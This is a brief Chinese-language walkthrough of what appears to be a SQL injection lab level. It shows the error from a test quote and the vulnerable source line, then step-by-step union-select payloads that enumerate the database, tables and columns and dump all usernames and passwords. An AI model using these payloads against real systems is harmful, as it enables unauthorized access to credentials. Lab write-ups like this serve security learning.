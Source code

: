 # 确认闭合类型
输入?id=1'  
出现报错：near '' LIMIT 0,1' at line 1  
         ' LIMIT 0,1  
可以跟第一题进行比较，会发现前面少了1'  
说明这一次我们只多了一个'，我们就可以不再考虑闭合的事情了  
接下来就跟上一题一样的步骤，把每一句payload的-1的后面的'去掉就行

# 确认回显位置
?id=-1 union select 1,2,3--+

# 查询数据库名
?id=-1 union select 1,database(),3 --+

# 查询表名
?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+

# 查询列名
?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' and table_schema=database()--+

# 查询值
?id=-1 union select 1,group_concat(username),group_concat(password) from users--+

# 源码
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";  
看源码就很清楚的看出来，服务器并没有对输入进行闭合，我们也就不用考虑闭合的事情了